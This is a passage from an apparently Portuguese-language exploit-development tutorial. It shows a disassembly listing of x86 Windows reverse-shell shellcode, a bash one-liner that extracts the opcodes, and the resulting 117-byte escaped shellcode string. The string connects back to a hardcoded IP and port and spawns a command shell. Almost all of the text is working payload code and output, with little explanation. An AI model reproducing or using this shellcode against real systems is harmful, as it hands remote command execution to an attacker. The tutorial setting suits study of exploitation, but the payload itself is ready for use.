 ```bash
  47:   66 b8 01 01             mov    ax,0x101
  4b:   50                      push   eax
  4c:   52                      push   edx
  4d:   52                      push   edx
  4e:   52                      push   edx
  4f:   52                      push   edx
  50:   52                      push   edx
  51:   52                      push   edx
  52:   52                      push   edx
  53:   52                      push   edx
  54:   52                      push   edx
  55:   52                      push   edx
  56:   80 c2 2c                add    dl,0x2c
  59:   52                      push   edx
  5a:   89 e0                   mov    eax,esp
  5c:   31 d2                   xor    edx,edx
  5e:   52                      push   edx
  5f:   52                      push   edx
  60:   52                      push   edx
  61:   52                      push   edx
  62:   54                      push   esp
  63:   50                      push   eax
  64:   31 db                   xor    ebx,ebx
  66:   53                      push   ebx
  67:   53                      push   ebx
  68:   53                      push   ebx
  69:   43                      inc    ebx
  6a:   53                      push   ebx
  6b:   4b                      dec    ebx
  6c:   53                      push   ebx
  6d:   53                      push   ebx
  6e:   51                      push   ecx
  6f:   53                      push   ebx
  70:   bb 90 2d 2b 75          mov    ebx,0x752b2d90
  75:   ff d3                   call   ebx

```

Este é basicamente o shellcode que utilizaremos, mas precisamos sanitizá-lo para podermos utilizar em nosso sxript, vamos utilizar o próprio bash para isso.

```bash
$ for i in $(objdump -d shellcode.o -M intel | grep '^ ' | cut -f2); do echo -n '\\x'$i;done;echo
\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x40\x71\xe6\x76\xff\xd3\x96\x68\xc0\xa8\x01\x0c\x66\x68\x20\xfb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x10\x53\x56\xbb\x10\x57\xe6\x76\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53\x51\x53\xbb\x90\x2d\x2b\x75\xff\xd3

```

E temos um reverse shell de apenas 117 bytes que cabem perfeitamente no no espaço de 147 bytes!
